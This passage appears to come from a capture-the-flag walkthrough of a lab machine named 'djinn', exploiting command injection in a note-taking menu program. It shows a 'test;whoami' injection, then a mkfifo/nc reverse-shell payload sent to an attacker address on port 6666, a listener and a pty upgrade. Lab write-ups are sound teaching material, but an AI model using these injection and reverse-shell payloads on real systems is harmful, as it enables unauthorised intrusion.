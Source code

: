 ```bash
=> 5

Name of the note: test;whoami
Description: test;whoami

Note added succesfully!

1. Show all members.
2. Add a new user.
3. Show all tasks.
4. Add a new task.
5. Add a note for admin.
6. Read notes.
7. Exit
=> 6
1 Important.txt
2 test;whoami

===> 2
cat: test: No such file or directory
test;whoami b'ugtan\n'
```

Perfect, we can get shell as `ugtan`, let's simply add a reverse shell.

```bash
=> 5

Name of the note: lol; rm /tmp/t;mkfifo /tmp/t;cat /tmp/t|/bin/sh -i 2>&1|nc your_ip 6666 >/tmp/t
Description: lol; rm /tmp/t;mkfifo /tmp/t;cat /tmp/t|/bin/sh -i 2>&1|nc your_ip 6666 >/tmp/t

Note added succesfully!

1. Show all members.
2. Add a new user.
3. Show all tasks.
4. Add a new task.
5. Add a note for admin.
6. Read notes.
7. Exit
=> 6
1 Important.txt
2 lol; rm /tmp/t;mkfifo /tmp/t;cat /tmp/t|/bin/sh -i 2>&1|nc 192.168.1.13 6666 >/tmp/t

===> 2
```

We have shell!

```bash
$ nc -lvp 6666
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ugtan@djinn:/$
```
